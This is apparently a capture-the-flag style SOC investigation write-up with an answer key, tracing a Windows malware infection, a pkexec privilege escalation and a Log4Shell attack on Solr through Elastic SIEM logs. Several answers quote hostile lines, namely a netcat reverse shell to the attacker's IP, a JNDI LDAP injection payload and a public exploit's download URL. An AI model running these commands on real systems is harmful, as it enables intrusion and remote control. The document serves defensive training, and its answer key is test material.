

# ElasticCase Lab

## **Scenario**

An attacker was able to trick an employee into downloading a suspicious file and running it. The attacker compromised the system, along with that, The Security Team did not update most systems. The attacker was able to pivot to another system and compromise the company. As a SOC analyst, you are assigned to investigate the incident using Elastic as a SIEM tool and help the team to kick out the attacker.

## **Questions**

### Q1: Who downloads the malicious file which has a double extension?

Answer: ahmed

### Q2: What is the hostname he was using?

Answer: DESKTOP-Q1SL9P2

### Q3: What is the name of the malicious file?

Answer: Acount_details.pdf.exe

### Q4: What is the attacker's IP address?

Answer: 192.168.1.10

### Q5: Another user with high privilege runs the same malicious file. What is the username?

Answer: cybery

### Q6: The attacker was able to upload a DLL file of size 8704. What is the file name?

Answer: mCblHDgWP.dll

### Q7: Tên tiến trình cha nào tạo ra tiến trình cmd với quyền NT AUTHORITY và PID 10716?

Answer: rundll32.exe

### Q8:  The previous process was able to access a registry. What is the full path of the registry?

Answer: HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled

### Q9: PowerShell process with pid 8836 changed a file in the system. What was that filename?

Answer: ModuleAnalysisCache

### Q10: PowerShell process with pid 11676 created files with the ps1 extension. What is the first file that has been created?

### Q11: What is the machine's IP address that is in the same LAN as a windows machine?

Answer: 192.168.10.30

### Q12: The attacker login to the Ubuntu machine after a brute force attack. What is the username he was successfully login with?

Answer: salem

### Q13: After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo?

Answer: [https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)

### Q14: After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash?

Answer: 3a4ad518e9e404a6bad3d39dfebaf2f6

### Q15: Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?

Answer: bash-i

### Q16: What is the hostname which alert [signal.rule.name](http://signal.rule.name/): "Netcat Network Activity"?

Answer: CentOS

### Q17: What is the username who ran netcat?

Answer: solr

### Q18: What is the parent process name of netcat?

Answer: java

### Q19: If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?

Answer: nc -e /bin/bash 192.168.1.10 9999

### Q20: From the previous three questions, you may remember a famous java vulnerability. What is it?

Answer: Log4Shell 

### Q21: What is the entire log file path of the "solr" application?

Answer: /var/solr/logs/solr.log

### Q22: What is the path that is vulnerable to log4j?

Answer : /admin/cores

### Q23: What is the GET request parameter used to deliver log4j payload?

Answer: foo

### Q24: What is the JNDI payload that is connected to the LDAP port?

Answer: {foo=${jndi:ldap://192.168.1.10:1389/Exploit}}
